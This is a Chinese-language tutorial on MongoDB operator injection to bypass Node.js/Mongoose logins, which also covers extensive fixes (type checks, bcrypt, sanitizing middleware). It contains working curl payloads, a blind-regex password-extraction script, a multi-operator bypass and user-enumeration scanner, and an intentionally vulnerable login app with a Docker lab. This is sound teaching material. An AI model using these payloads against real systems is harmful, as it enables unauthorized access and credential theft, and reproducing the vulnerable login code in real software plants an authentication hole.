


## 案例三：MongoDB注入绕过认证

### 背景与原理

MongoDB注入是一种针对NoSQL数据库的注入攻击方式。与传统SQL注入不同，MongoDB使用JSON/BSON格式的查询语法，攻击者通过向查询条件中注入MongoDB操作符（如`$ne`、`$gt`、`$regex`等），可以篡改查询逻辑，绕过身份认证机制。

#### 为什么MongoDB也会被注入？

很多开发者存在一个误区：认为NoSQL数据库不会受到注入攻击。实际上，只要应用程序将用户输入直接拼接到数据库查询中，无论底层是SQL还是NoSQL，都存在注入风险。MongoDB的查询语言基于JavaScript对象语法，攻击者可以通过发送JSON格式的恶意数据来注入操作符。



#### MongoDB操作符注入原理

MongoDB的`findOne()`方法接受一个查询条件对象。正常情况下，`password`字段的值应该是一个字符串：

```javascript
// 正常查询
User.findOne({ username: "admin", password: "123456" })
// 等价于SQL: SELECT * FROM users WHERE username='admin' AND password='123456'
```

但当攻击者发送`{"$ne":""}`作为password的值时，查询变成了：

```javascript
// 注入后的查询
User.findOne({ username: "admin", password: { "$ne": "" } })
// 等价于SQL: SELECT * FROM users WHERE username='admin' AND password != ''
```

只要admin用户的密码不是空字符串（几乎不可能是空的），这个查询就会返回admin用户的记录，从而绕过密码验证。

### 目标场景

一个基于Node.js + Express + Mongoose的Web应用，使用MongoDB存储用户数据。应用存在一个登录接口，直接将请求体中的JSON数据传入MongoDB查询，未对输入类型做任何校验。

### 漏洞代码分析

```javascript
// app.js —— 存在注入漏洞的完整应用
const express = require('express');
const mongoose = require('mongoose');
const app = express();

app.use(express.json());  // 解析JSON请求体

mongoose.connect('mongodb://localhost:27017/myapp');

const UserSchema = new mongoose.Schema({
    username: String,
    password: String,       // 明文存储密码（双重问题）
    role: { type: String, default: 'user' }
});

const User = mongoose.model('User', UserSchema);

// 漏洞点：直接使用用户输入构造查询条件
app.post('/login', async (req, res) => {
    const { username, password } = req.body;

    // 危险！没有验证 username 和 password 的类型
    // 如果攻击者发送 password: {"$ne":""}，这里不会报错
    const user = await User.findOne({
        username: username,
        password: password
    });

    if (user) {
        res.json({ success: true, role: user.role });
    } else {
        res.json({ success: false });
    }
});

app.listen(3000);
```

**漏洞根因分析：**

| 问题 | 说明 | 风险等级 |
|------|------|----------|
| 未验证输入类型 | `password`可以是对象而非字符串 | 高 |
| 明文存储密码 | 数据库泄露后直接暴露所有密码 | 高 |
| 无速率限制 | 攻击者可无限尝试 | 中 |
| 无日志记录 | 攻击行为无法追踪 | 中 |
| 错误信息泄露 | 未做统一错误处理 | 低 |

### 攻击实战

#### 准备工作

```bash
# 确认目标存在登录接口
curl -s http://target:3000/login | head -20

# 使用浏览器开发者工具或Burp Suite拦截登录请求
# 观察请求格式为JSON: {"username":"xxx","password":"xxx"}
```

#### Step 1：正常登录尝试（建立基线）

```bash
# 使用错误的密码尝试登录
curl -X POST http://target:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"wrong_password"}'
# 返回: {"success":false}

# 使用正确的密码尝试（如果你知道的话）
curl -X POST http://target:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"123456"}'
# 返回: {"success":true,"role":"admin"}
```

#### Step 2：$ne操作符绕过密码验证

```bash
# 核心攻击：$ne 表示"不等于"
# password: {"$ne":""} 的含义是：密码不等于空字符串
# 只要密码不是空的（几乎100%的情况），就能匹配成功
curl -X POST http://target:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$ne":""}}'
# 返回: {"success":true,"role":"admin"}  ← 注入成功！
```

#### Step 3：$gt操作符绕过

```bash
# $gt 表示"大于"
# password: {"$gt":""} 的含义是：密码大于空字符串
# 在字符串比较中，任何非空字符串都大于空字符串
curl -X POST http://target:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$gt":""}}'
# 返回: {"success":true,"role":"admin"}
```

#### Step 4：$regex操作符绕过

```bash
# $regex 使用正则表达式匹配
# password: {"$regex":".*"} 匹配任何字符串（包括空字符串）
curl -X POST http://target:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$regex":".*"}}'
# 返回: {"success":true,"role":"admin"}

# 更精确的正则：匹配至少一个字符
curl -X POST http://target:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$regex":".+"}}'
# 返回: {"success":true,"role":"admin"}
```

#### Step 5：$exists操作符绕过

```bash
# $exists 检查字段是否存在
# password: {"$exists":true} 的含义是：密码字段存在
curl -X POST http://target:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$exists":true}}'
# 返回: {"success":true,"role":"admin"}
```

#### Step 6：$in操作符绕过

```bash
# $in 表示"在列表中"
# 尝试多个常见密码，只要有一个匹配就成功
curl -X POST http://target:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$in":["123456","password","admin","root","1234"]}}'
# 如果密码在列表中，返回: {"success":true,"role":"admin"}
```

#### Step 7：盲注枚举密码

当上述操作符被过滤时，可以通过逐字符盲注来提取密码：

```python
#!/usr/bin/env python3
"""
MongoDB盲注脚本 - 逐字符提取密码
"""
import requests
import string

TARGET = "http://target:3000/login"
CHARSET = string.ascii_letters + string.digits + "!@#$%^&*"

def check_password_prefix(prefix):
    """检查密码是否以指定前缀开头"""
    payload = {
        "username": "admin",
        "password": {"$regex": f"^{prefix}"}
    }
    try:
        resp = requests.post(TARGET, json=payload, timeout=5)
        data = resp.json()
        return data.get("success") == True
    except:
        return False

def extract_password():
    """逐字符提取完整密码"""
    password = ""
    print("[*] 开始提取admin密码...")

    for position in range(1, 50):  # 最大密码长度50
        found = False
        for char in CHARSET:
            test = password + char
            if check_password_prefix(test):
                password += char
                print(f"[+] 密码: {password}")
                found = True
                break

        if not found:
            print(f"[!] 密码提取完成: {password}")
            break

    return password

if __name__ == "__main__":
    # 先确认注入点存在
    if check_password_prefix(".*"):
        print("[+] 注入点确认存在")
        extract_password()
    else:
        print("[-] 目标可能已修复或不可达")
```

### 自动化攻击工具

#### 使用NoSQLMap

```bash
# 安装NoSQLMap
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap
pip install -r requirements.txt

# 运行工具
python nosqlmap.py

# 选择攻击模式
# 1. 指定目标URL
# 2. 设置请求参数
# 3. 选择注入类型（认证绕过）
# 4. 自动测试所有操作符
```

#### 使用Burp Suite

```text
1. 配置浏览器代理 -> 127.0.0.1:8080
2. 拦截登录请求
3. 发送到Intruder模块
4. 在password字段位置设置payload标记
5. 使用以下payload列表:
   - {"$ne":""}
   - {"$gt":""}
   - {"$regex":".*"}
   - {"$exists":true}
   - {"$in":["admin","123456"]}
6. 开始攻击，观察响应差异
```

#### 使用自定义Python脚本（完整攻击套件）

```python
#!/usr/bin/env python3
"""
MongoDB认证绕过攻击套件
支持多种操作符注入和盲注
"""
import requests
import json
import sys
import time
from concurrent.futures import ThreadPoolExecutor

class MongoAuthBypass:
    def __init__(self, target_url):
        self.target = target_url
        self.session = requests.Session()
        self.results = []

    def test_operator(self, username, operator, value=""):
        """测试单个操作符"""
        if operator in ["$ne", "$gt", "$gte", "$lt", "$lte"]:
            payload = {operator: value}
        elif operator == "$regex":
            payload = {operator: value}
        elif operator == "$exists":
            payload = {operator: True}
        elif operator == "$in":
            payload = {operator: value if isinstance(value, list) else [value]}
        elif operator == "$nin":
            payload = {operator: value if isinstance(value, list) else [value]}
        elif operator == "$not":
            payload = {operator: {"$regex": value}}
        else:
            payload = {operator: value}

        data = {"username": username, "password": payload}

        try:
            start = time.time()
            resp = self.session.post(self.target, json=data, timeout=10)
            elapsed = time.time() - start

            result = {
                "operator": operator,
                "value": str(value),
                "status": resp.status_code,
                "response": resp.text[:200],
                "time": f"{elapsed:.2f}s",
                "success": False
            }

            try:
                json_resp = resp.json()
                if json_resp.get("success") == True:
                    result["success"] = True
                    result["role"] = json_resp.get("role", "unknown")
            except:
                pass

            return result
        except Exception as e:
            return {"operator": operator, "error": str(e), "success": False}

    def scan_all_operators(self, username="admin"):
        """测试所有常见操作符"""
        print(f"\n{'='*60}")
        print(f"MongoDB认证绕过扫描器")
        print(f"目标: {self.target}")
        print(f"用户: {username}")
        print(f"{'='*60}\n")

        operators = [
            ("$ne", ""),
            ("$ne", "nonexistent"),
            ("$gt", ""),
            ("$gte", ""),
            ("$lt", "zzzzzzzz"),
            ("$regex", ".*"),
            ("$regex", ".+"),
            ("$exists", True),
            ("$in", ["admin", "123456", "password"]),
            ("$nin", [""]),
        ]

        for op, val in operators:
            result = self.test_operator(username, op, val)
            status = "✓ 成功" if result.get("success") else "✗ 失败"
            print(f"  {op:10s} -> {status}  |  {result.get('response','')[:60]}")
            if result.get("success"):
                self.results.append(result)

        print(f"\n{'='*60}")
        print(f"扫描完成: {len(self.results)}/{len(operators)} 个操作符有效")
        return self.results

    def brute_force_users(self, wordlist):
        """通过认证绕过枚举存在的用户"""
        print(f"\n[*] 开始枚举用户...")
        valid_users = []

        for username in wordlist:
            result = self.test_operator(username, "$ne", "")
            if result.get("success"):
                valid_users.append(username)
                print(f"  [+] 用户存在: {username} (角色: {result.get('role')})")

        return valid_users

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("用法: python mongo_bypass.py <target_url> [username]")
        sys.exit(1)

    scanner = MongoAuthBypass(sys.argv[1])
    username = sys.argv[2] if len(sys.argv) > 2 else "admin"
    scanner.scan_all_operators(username)
```

### 常见MongoDB注入操作符速查表

| 操作符 | 含义 | 注入用途 | 示例payload |
|--------|------|----------|-------------|
| `$ne` | 不等于 | 绕过密码验证 | `{"$ne":""}` |
| `$gt` | 大于 | 绕过密码验证 | `{"$gt":""}` |
| `$gte` | 大于等于 | 绕过密码验证 | `{"$gte":""}` |
| `$lt` | 小于 | 绕过特定值 | `{"$lt":"z"}` |
| `$lte` | 小于等于 | 绕过特定值 | `{"$lte":"z"}` |
| `$regex` | 正则匹配 | 盲注提取数据 | `{"$regex":"^a"}` |
| `$exists` | 字段存在 | 绕过验证 | `{"$exists":true}` |
| `$in` | 在列表中 | 多密码尝试 | `{"$in":["123","456"]}` |
| `$nin` | 不在列表中 | 排除特定值 | `{"$nin":[""]}` |
| `$not` | 取反 | 绕过正则过滤 | `{"$not":{"$regex":""}}` |
| `$where` | JavaScript执行 | 代码执行（高危） | `{"$where":"return true"}` |

### 修复方案

#### 方案一：输入类型验证（必须）

```javascript
// 核心防御：验证输入必须是字符串类型
app.post('/login', async (req, res) => {
    const { username, password } = req.body;

    // 严格类型检查 —— 这是防御MongoDB注入的关键
    if (typeof username !== 'string' || typeof password !== 'string') {
        return res.status(400).json({ error: '输入格式无效' });
    }

    // 长度限制防止极端输入
    if (username.length < 3 || username.length > 50) {
        return res.status(400).json({ error: '用户名长度应在3-50之间' });
    }
    if (password.length < 8 || password.length > 128) {
        return res.status(400).json({ error: '密码长度应在8-128之间' });
    }

    // 继续正常登录逻辑...
    const user = await User.findOne({ username });
    if (user && await bcrypt.compare(password, user.password)) {
        res.json({ success: true, role: user.role });
    } else {
        res.json({ success: false });
    }
});
```

#### 方案二：Mongoose Schema验证

```javascript
// 利用Mongoose的内置验证机制
const UserSchema = new mongoose.Schema({
    username: {
        type: String,
        required: true,
        match: /^[a-zA-Z0-9_]+$/,  // 只允许字母数字下划线
        minlength: 3,
        maxlength: 50
    },
    password: {
        type: String,
        required: true,
        minlength: 8
    },
    role: {
        type: String,
        default: 'user',
        enum: ['user', 'admin', 'moderator']
    }
});

// 确保查询时类型严格匹配
UserSchema.pre('findOne', function() {
    const conditions = this.getQuery();
    for (const key in conditions) {
        if (typeof conditions[key] === 'object' && conditions[key] !== null) {
            // 检测到对象类型的查询条件，可能是注入
            throw new Error(`Invalid query condition for field: ${key}`);
        }
    }
});
```

#### 方案三：使用bcrypt哈希密码（防御密码泄露）

```javascript
const bcrypt = require('bcrypt');
const SALT_ROUNDS = 12;

// 注册时哈希密码
app.post('/register', async (req, res) => {
    const { username, password } = req.body;

    if (typeof username !== 'string' || typeof password !== 'string') {
        return res.status(400).json({ error: '输入格式无效' });
    }

    const hashedPassword = await bcrypt.hash(password, SALT_ROUNDS);
    const user = new User({ username, password: hashedPassword });
    await user.save();

    res.json({ success: true, message: '注册成功' });
});

// 登录时验证密码
app.post('/login', async (req, res) => {
    const { username, password } = req.body;

    if (typeof username !== 'string' || typeof password !== 'string') {
        return res.status(400).json({ error: '输入格式无效' });
    }

    // 只用username查询，再用bcrypt比较密码
    // 这样即使注入了操作符，也无法绕过bcrypt.compare
    const user = await User.findOne({ username });

    if (!user) {
        // 使用恒定时间比较防止时序攻击
        await bcrypt.compare(password, '$2b$12$dummyhashtopreventtimingattack');
        return res.json({ success: false });
    }

    const isValid = await bcrypt.compare(password, user.password);
    if (isValid) {
        res.json({ success: true, role: user.role });
    } else {
        res.json({ success: false });
    }
});
```

#### 方案四：全局中间件防护

```javascript
// 全局MongoDB注入防护中间件
function mongoSanitize(req, res, next) {
    const sanitize = (obj) => {
        if (obj && typeof obj === 'object') {
            for (const key in obj) {
                if (key.startsWith('$')) {
                    // 检测到MongoDB操作符，拒绝请求
                    return res.status(400).json({
                        error: '请求包含非法字符',
                        field: key
                    });
                }
                if (typeof obj[key] === 'object') {
                    const result = sanitize(obj[key]);
                    if (result) return result;
                }
            }
        }
        return null;
    };

    const result = sanitize(req.body) || sanitize(req.query) || sanitize(req.params);
    if (result) return result;

    next();
}

// 应用中间件（在express.json()之后）
app.use(express.json());
app.use(mongoSanitize);
```

#### 方案五：使用express-mongo-sanitize库

```bash
npm install express-mongo-sanitize
```

```javascript
const mongoSanitize = require('express-mongo-sanitize');

// 方式1：删除包含$的字段
app.use(mongoSanitize());

// 方式2：替换$为下划线（保留数据但去除操作符含义）
app.use(mongoSanitize({
    replaceWith: '_'
}));

// 方式3：在特定路由使用
app.post('/login', mongoSanitize(), async (req, res) => {
    // req.body中已去除所有$开头的字段
});
```

### 防御深度：多层防护架构



| 防护层 | 措施 | 防御能力 |
|--------|------|----------|
| 网关层 | WAF规则、速率限制 | 拦截已知攻击模式 |
| 中间件层 | mongoSanitize、类型检查 | 拦截操作符注入 |
| 业务层 | 输入验证、逻辑校验 | 拦截业务逻辑漏洞 |
| 数据层 | Schema验证、参数化查询 | 最后防线 |
| 监控层 | 日志、告警、审计 | 检测和响应 |

### 与SQL注入的对比

| 对比维度 | SQL注入 | MongoDB注入 |
|----------|---------|-------------|
| 数据库类型 | 关系型（MySQL等） | NoSQL（MongoDB） |
| 查询语言 | SQL语句 | JSON/BSON对象 |
| 注入点 | 字符串拼接 | 对象属性覆盖 |
| 常见操作符 | `' OR 1=1 --` | `{"$ne":""}` |
| 危害 | 数据泄露、权限提升、RCE | 认证绕过、数据泄露 |
| 防御方式 | 参数化查询、预编译语句 | 类型验证、输入清理 |
| ORM防护 | Sequelize等自动参数化 | Mongoose需手动验证类型 |

### 常见误区

**误区一：NoSQL不会被注入**

实际上，任何将用户输入直接用于查询的地方都可能存在注入。MongoDB注入的原理是利用JSON对象可以包含操作符的特性，而非传统的字符串拼接。

**误区二：使用ORM就安全了**

Mongoose本身不会自动阻止操作符注入。如果你将`req.body`直接传入查询条件，Mongoose会忠实地执行包含操作符的查询。安全的关键在于验证输入类型。

**误区三：只对password字段做类型检查**

攻击者也可以对username字段注入操作符，比如`{"$ne":""}`会匹配任意用户。需要对所有用户输入字段做类型验证。

**误区四：前端验证就够了**

前端验证可以被轻松绕过（直接发送HTTP请求）。所有验证必须在服务端执行。

**误区五：HTTPS能防止注入**

HTTPS只保护传输层的机密性，无法阻止应用层的注入攻击。注入payload在HTTPS连接中同样有效。

### 进阶：MongoDB注入的其他攻击面

#### 1. $where注入（JavaScript执行）

如果应用使用`$where`子句，攻击者可能执行任意JavaScript代码：

```javascript
// 危险的查询
User.find({ $where: `this.username == '${input}'` });

// 攻击payload
// input = "'; return true; var x='"
// 最终执行: this.username == ''; return true; var x==''
```

#### 2. 聚合管道注入

```javascript
// 危险的聚合查询
User.aggregate([
    { $match: { username: userInput } },
    { $group: { _id: "$role", count: { $sum: 1 } } }
]);

// 如果userInput是对象而非字符串，可以注入$match阶段
```

#### 3. Map-Reduce注入

Map-Reduce函数在MongoDB服务端执行JavaScript，如果输入未经过滤，可能导致远程代码执行。

### 练习环境搭建

```bash
# 使用Docker快速搭建漏洞环境
docker run -d -p 3000:3000 -p 27017:27017 --name vuln-mongo \
  node:18 bash -c "
    npm init -y &&
    npm install express mongoose &&
    echo 'const express=require(\"express\");const mongoose=require(\"mongoose\");const app=express();app.use(express.json());mongoose.connect(\"mongodb://localhost:27017/myapp\");const User=mongoose.model(\"User\",new mongoose.Schema({username:String,password:String,role:{type:String,default:\"user\"}}));app.post(\"/login\",async(r,s)=>{const{username,password}=r.body;const u=await User.findOne({username,password});s.json(u?{success:true,role:u.role}:{success:false})});User.create({username:\"admin\",password:\"123456\",role:\"admin\"});app.listen(3000)' > app.js &&
    node app.js
  "
```

***

